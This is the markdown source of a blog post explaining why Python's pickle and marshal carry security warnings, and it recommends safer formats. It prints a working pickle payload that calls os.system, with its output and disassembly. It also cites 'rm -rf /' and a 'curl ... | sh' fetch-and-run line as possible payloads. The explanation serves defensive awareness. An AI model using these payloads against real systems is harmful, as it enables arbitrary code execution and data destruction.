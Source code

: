 ```yaml
---
layout: post
title: "Security of Python's pickle and marshal modules"
---
```


<em class="hatnote">This is modified from my answer at Stack Overflow:
<a href="http://stackoverflow.com/q/26931919/660921">Marshal unserialization -
not secure</a>.</em>

Both the [`pickle`][pickle] and [`marshal`][marshal] modules come with a similar
big red warning:

> The pickle module is not secure against erroneous or maliciously constructed
> data. Never unpickle data received from an untrusted or unauthenticated
> source.

<!-- -->

> The marshal module is not intended to be secure against erroneous or
> maliciously constructed data. Never unmarshal data received from an untrusted
> or unauthenticated source.

Lets see why.

Marshal
-------

There are no **known** ways to exploit `marshal`. Executing code when using
`marshal.loads()` is not something I was able to do, and looking at the
`marhal.c` source code, I don't see an immediately obvious way.

So why is this warning here? [The BDFL explains][bfdl]:

> BTW the warning for marshal is legit -- the C code that unpacks marshal data
> has not been carefully analyzed against buffer overflows and so on. Remember
> the first time someone broke into a system through a malicious JPEG? The same
> could happen with marshal. Seriously.

I recommend you read the rest of the discussion; a bug is shown where
unmarshaling data causes Python to segfault; this has been fixed since Python
2.5 (this bug can, potentially, be abused to execute code). Other bugs *may*
still exist, though!

Furthermore, the `marshal` docs mention:

> This is not a general “persistence” module. [..]  The marshal module exists
> mainly to support reading and writing the “pseudo-compiled” code for Python
> modules of .pyc files.

So it's not even designed to persist data in a reliable way.

Pickle
------

You can easily execute arbitrary code with `pickle`. For example:

    >>> import pickle
    >>> pickle.loads(b"cos\nsystem\n(S'ls /'\ntR.")
    bin   data  download  home  lib64       mnt  proc  run   srv  tmp     usr      var
    boot  dev   etc       lib   lost+found  opt  root  sbin  sys  ubuntu  vagrant
    0

This is a harmless `ls /`, but can also be a less harmless `rm -rf /`, or a
`curl http://example.com/hack.sh | sh`.

You can see how this works by using the `pickletools` module:

    >>> import pickletools
    >>> pickletools.dis(b"cos\nsystem\n(S'ls /'\ntR.")
        0: c    GLOBAL     'os system'
       11: (    MARK
       12: S        STRING     'ls /'
       20: t        TUPLE      (MARK at 11)
       21: R    REDUCE
       22: .    STOP

`pickle.py` has some comments on what these opcodes mean:

    GLOBAL         = b'c'   # push self.find_class(modname, name); 2 string args
    MARK           = b'('   # push special markobject on stack
    STRING         = b'S'   # push string; NL-terminated string argument
    TUPLE          = b't'   # build tuple from topmost stack items
    REDUCE         = b'R'   # apply callable to argtuple, both on stack
    STOP           = b'.'   # every pickle ends with STOP

Most of it is self-explanatory; with `GLOBAL` you can get any function, and
with `REDUCE` you call it.

Since Python is pretty dynamic, you can also use this to monkey-patch a program
in run-time. For example, you can change the `check_password` function with one
where you upload the password to a server.

So what *is* secure?
--------------------

XML, json, MessagePack, ini files, or perhaps something else. It depends on
which format is the best in your situation.

Has this code been "carefully analyzed against buffer overflows and so on"? Who
knows. Most code hasn't, and C makes it easy to do things wrong.[^1] Even Python
code may be vulnerable, as it [may call functions implemented in C that are
vulnerable](http://www.cvedetails.com/product/18230/Python-Python.html?vendor_id=10210).

There [have been problems with Python's JSON module][json-cve]. But at the same
time, it's used a lot in public-facing apps, so it's *probably* safe. It'll
certainly be safer than `marshal`, since this was only designed for `.pyc` files
and explicitly comes with a "not audited!" warning.

This is no guarantee. Remember that [YAML security hole a few years back that
caused every Ruby on Rails application in the world to be vulnerable to
arbitrary code execution][yaml-oops]. Oops! And this wasn't even a subtle buffer
overflow, but a much more obvious problem.

You should *not* use [yaml][yaml]'s `load()` method, as this has [the same
problems as Ruby's YAML][no-yaml]. Use `safe_load()` instead.

Conclusion
----------

The warning in the `pickle` module is very much warranted (it should be stated
stronger), while the warning above the `marshal` module is more of a "*this code
was not designed with security in mind*"-type of warning, but actually
exploiting it is not as easy and relies on the hypothetical existence on unknown
bugs. Still, you're probably better off using something else.

[^1]: There really ought to be a "carefully analyzed against buffer overflows and so on" seal of trust for open source projects. Yeah, you can shelf out the big bucks and get your code analyzed by Veracode and such, but this is not feasible for open source projects. There is *some* effort to do this after the OpenSSL Heartbleed clusterfuck a few years ago in the form of the [Core Infrastructure Initiative](https://en.wikipedia.org/wiki/Core_Infrastructure_Initiative), but its scope and budget are limited (but it's young, and may gain traction in a few years).

[marshal]: https://docs.python.org/3/library/marshal.html
[pickle]: https://docs.python.org/3/library/pickle.html
[yaml]: http://pyyaml.org/
[yaml-oops]: http://www.kalzumeus.com/2013/01/31/what-the-rails-security-issue-means-for-your-startup/
[no-yaml]: http://nedbatchelder.com/blog/201302/war_is_peace.html
[json-cve]: https://access.redhat.com/security/cve/CVE-2014-4616
[bfdl]: http://grokbase.com/t/python/python-ideas/083532w3t7/an-official-complaint-regarding-the-marshal-and-pickle-documentation#20080305gvdndfl4m3f2u6cmpxvrclfcou

